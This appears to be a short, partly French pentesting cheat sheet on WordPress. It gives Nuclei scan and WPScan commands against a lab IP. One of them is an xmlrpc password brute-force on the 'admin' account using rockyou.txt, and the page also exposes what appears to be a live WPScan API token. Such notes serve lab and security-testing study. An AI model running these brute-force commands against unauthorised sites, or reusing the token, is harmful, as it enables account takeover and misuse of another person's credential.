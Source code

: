 # WordPress

## Nuclei

[Templates Wordpress](https://github.com/topscoder/nuclei-wordfence-cve)

```powershell
./nuclei.exe -t ./nuclei-wordfence-cve/ -u $url -sresp -rl 10 -markdown-export BaseReport -stats
```

## WPScan

> préalable :  recuperer un clé api (gratuite) sur wpscan

```sh
wpscan --url http://10.10.110.100:65000/wordpress --enumerate --api-token NYuwCbv8GWaswuY0QzyFdvHi1nD7Ao7pbOkTvH8Pjsk
wpscan --password-attack xmlrpc -t 20 -U admin -P rockyou.txt --url http://10.10.110.100:65000/wordpress/
```



